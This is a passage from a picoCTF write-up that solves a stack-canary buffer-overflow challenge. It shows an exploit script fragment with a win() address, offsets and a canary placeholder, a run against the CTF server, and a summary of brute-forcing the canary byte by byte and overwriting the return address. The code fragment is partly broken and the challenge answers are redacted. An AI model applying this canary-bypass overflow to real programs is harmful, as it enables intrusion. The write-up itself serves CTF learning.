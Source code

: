 **Hint:**  
For the **Family Guy** fans,  
`_____REDACTED_____ is the word`

## Final Part
Now that we know how to construct our payload and found the canary, we can **complete** the challenge.  
The final option of the **script**, `execute`, generates the payload, sends it to the server and prints the flag.  
All we have to do is change `canary` in `execute()` with the canary value we found from above
```python
def execute():
    win_addr = "08049336"
    canary_dist =
    ret_dist = 16
    canary = "B____REDACTED____".encode()[::-1].hex() 64 # CHANGE STRING
```
```
$ python script.py execute              
[+] Opening connection to saturn.picoctf.net on port 57525: Done
[+] Receiving all data: Done (70B)
[*] Closed connection to saturn.picoctf.net port 57525
picoCTF{____REDACTED____}
```

## Solution
- Find distance of `buf` in `vuln()` from the canary and return address
- Override return address with the address of `win()` preserving the canary value
- Find the canary value of the server by brute forcing one by one letter
